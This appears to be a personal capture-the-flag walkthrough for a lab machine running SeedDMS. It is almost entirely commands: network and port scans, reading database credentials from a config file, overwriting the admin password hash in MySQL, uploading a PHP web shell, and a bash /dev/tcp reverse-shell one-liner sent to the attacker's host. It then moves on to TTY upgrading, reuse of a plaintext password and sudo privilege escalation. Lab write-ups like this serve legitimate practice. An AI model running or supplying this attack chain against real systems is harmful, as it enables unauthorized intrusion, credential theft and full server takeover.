

## init
```bash
arp-scan -I wlo1 --localnet
ping -c 1 192.168.1.16
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 192.168.1.16 -oG allPorts
nmap -sCV -p80,3306,33060 192.168.1.16 -oN targeted

whatweb http://192.168.1.16
# ans
http://192.168.1.16 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.1.16], JQuery[1.11.2], Modernizr[2.8.3-respond-1.4.2.min], Script[text/javascript], Title[Welcome to the land of pwnland], X-UA-Compatible[IE=edge] # jquery

dirb http://192.168.1.16 /usr/share/wordlists/dirb/common.txt
<>

# download js file form page spurce
```


```bash


http://192.168.1.16/seeddms51x/seeddms-5.1.22/

http://192.168.1.16/seeddms51x/conf/settings.xml

cat db.xml | grep mysql
# ans
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false">

mysql -useeddms -h 192.168.1.16 -p
seeddms # pass

searchsploit seeddms
#ans
Seeddms 5.1.10 - Remote Command Execution (RCE) (Authenticated)                  | php/webapps/50062.py
SeedDMS 5.1.18 - Persistent Cross-Site Scripting                                 | php/webapps/48324.txt
SeedDMS < 5.1.11 - 'out.GroupMgr.php' Cross-Site Scripting                       | php/webapps/47024.txt
SeedDMS < 5.1.11 - 'out.UsrMgr.php' Cross-Site Scripting                         | php/webapps/47023.txt
SeedDMS versions < 5.1.11 - Remote Command Execution                             | php/webapps/47022.txt


```
- In database


```bash
f9ef2c539bad8a6d2f3432b6d49ab51a

echo -n "f9ef2c539bad8a6d2f3432b6d49ab51a" | wc -c # 32
echo -n "pass123" | md5sum # 32250170a0dca92d53ec9624f336ca24

# in db
update tblUsers set pwd = '32250170a0dca92d53ec9624f336ca24' where login = 'admin';

# in seeddms portal
user: admin
pass: pass123

# make a php file
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";

?>


```
- CLick on add document from seeddms and upload php file


- Uploaded file


- View file id


```bash
http://192.168.1.16/seeddms51x/data/1048576/4/1.php?cmd=whoami

http://192.168.1.16/seeddms51x/data/1048576/4/1.php?cmd=ls%20-l%20../../

192.168.1.16/seeddms51x/data/1048576/4/1.php?cmd=bash -c "bash -i >& /dev/tcp/192.168.1.12/443 0>&1" # oneliner
192.168.1.16/seeddms51x/data/1048576/4/1.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.12/443 0>%261"

nc -nvlp 443

# remote machine
hostname -I

# treatment
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash

ls /home #saket
su saket 

 Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |

id
uid=1000(saket) gid=1000(saket) groups=1000(saket),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare) # lxd target

sudo -l # pass: Saket@#$1337
sudo su

# The macine has been hacked XDD


```